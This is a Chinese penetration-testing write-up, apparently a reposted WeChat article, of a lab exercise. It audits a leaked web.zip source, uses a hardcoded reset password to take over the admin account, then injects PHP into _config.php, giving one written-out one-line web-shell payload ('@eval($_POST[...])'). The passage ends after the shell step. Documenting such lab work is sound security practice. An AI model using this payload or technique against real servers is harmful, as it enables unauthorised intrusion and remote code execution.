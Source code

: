 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TFvtPoy2-7hcTbKbHVXrWg)

**基于 Cobalt Strike 的从外网打点到拿下域控**

![](https://mmbiz.qpic.cn/mmbiz_gif/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEaibecChbGEVypvJ8f7y3WPAsWNvN208dyLVNb1PnAUv1T1QmyW4Cibibw/640?wx_fmt=gif)

**忙完考试和论文的事情了，感谢月师傅给的测试学习机会**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEkkzOPl5hW4ibCqRqaszYfRzeNQLOUctw6CkpBd4gf7yOD6hNwOaaCsg/640?wx_fmt=png)

**注：本文所示均基于虚拟环境**

**DMZ WEB Server**

边界的 web 服务器就像上图，是一个网络用户管理系统，探测了下目录找到一个 web.zip 是源码，接下来就是源码审计。

**Mysql Rest Getshell**

kss_tool\reset.php

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEWHaPMaVkQrkvZBGI57xYSB5ckFuISxQQQeF35HaUF9cX86ks8roCYQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEia1Gtiatekziaibb3Mv29Q9J9df24lurWemWBZjCgf2LEytFXicugKypKCQ/640?wx_fmt=png)

可以重置数据库，但是做了一个验证安全接口密码的操作，经过审计分析，安全接口明文存放在源码当中:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEnib3iagiaq9xZVw0w26tXDMQd32LfLTiaUuoibdegkIoS4mC3QG0R6FZ1WA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEZ4fknZdmgGsVicT0e9WIiaT0uTXOibGNdGb5ic1Do7yaKqOpwl9NUVDGhA/640?wx_fmt=png)

直接 vps 整个库连上，即修改了管理员密码，本来想看更新 config.php 能不能直接写 shell，好像不太行，怕搞坏就没整了。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEqetQIfNjOnHgL27euicRdYkDRdwSsjqLBpCOUazLfjfibLQKibJJXAPMw/640?wx_fmt=png)

后面发现后台没有可利用的东西，还是回去审一下能不能直接 getshell。还是刚才的 reset.php:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEEWODP6mibr3PrnsuxKkxevqiafdoVGQMVsxaaMfDynym4vvARl3RhnyQ/640?wx_fmt=png)

可以看到 $nsvrid 是可控的，并且写入了_config.php，mco2() 就是起了个拼接作用。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEL916tzc8UuuiaiafgbH8ibegic8mLgGyHI933GHshAYLMmEqPvt7O3YXRw/640?wx_fmt=png)

因此我们可以尝试 getshell，payload 如下:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEFSkZEPgKLU5EnAxCIIqShVibXrcE32iaTXmbtI3OTicspIIZZMybtv2lQ/640?wx_fmt=png)

或者写完整的 shell，把后面多出来的括号分号注释掉也可以。

------WebKitFormBoundaryQgYqBaldcHDIOdbZContent-Dis;  1);@eval($_POST[R2S]);//

效果如下:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEaPxB8IIA8ct2Yicd9ZC05LJPrVPSGAQ8olc1tD0icIMEM7bh4JCrAzBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEjcyPaA7V1DWmU8tsMHAFWR2GEWRfSLoaPrKl95UcqlRO9hTPOs8iaOw/640?wx_fmt=png)
